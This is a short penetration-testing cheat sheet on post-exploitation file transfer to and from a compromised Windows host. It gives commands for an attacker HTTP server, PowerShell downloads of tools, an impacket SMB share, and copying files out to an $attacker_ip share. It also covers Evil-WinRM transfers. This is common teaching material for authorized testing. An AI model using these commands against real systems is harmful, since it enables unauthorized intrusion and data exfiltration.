 ```yaml
---
label: File Transfer
order: 600
---
```


# File Transfer

Once the system is compromised, very often the attacker needs to transfer some tool to the victim's system or download some file. Uploaded files are usually tools for further privilege escalation, credential harvesting or lateral movement. Files downloaded are mostly logs and output from tools.

## From attacker to victim (upload)

### Simple HTTP server

Attacker:

```bash
# Start HTTP server (directory listing of the current directory)
python -m http.server $port
```

Victim:

```powershell
# Download file from URL
Invoke-WebRequest $url -Out $output_file

# Alias to Invoke-WebRequest
wget $url -Out $output_file

# Alternative way
(New-Object System.Net.WebClient).DownloadFile($url, $output_file)
```

> **IMPORTANT**: It might be worth to check file integrity after download using MD5 hash: `Get-FileHash $file -Algorithm MD5`

## Bidirectional

### Simple SMB server

Attacker:

```bash
impacket-smbserver -smb2support -username $user -password $pass $share_name $mount_dir
```

Victim:

```powershell
# Authenticate yourself against the share
net use \\$attacker_ip\$share /user:$user $pass

# Send to attacker
copy $file \\$attacker_ip\$share\

# Download from attacker
copy \\$attacker_ip\$share\$file $path
```

### Existing SMB share

If there is some SMB share running on the victim's machine and you have access to it from both sides (attacker and victim), then you can use it to conveniently transfer files both ways.

### Evil-WinRM

The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

Attacker (Evil-WinRM CLI):

```bash
> download $file
> send $file
```

## C2 Frameworks

Probably all C2 frameworks have built-in file transfer feature implemented. Take a look at the documentation of the C2 framework you are using.

{/*netcat, hfs.exe*/}
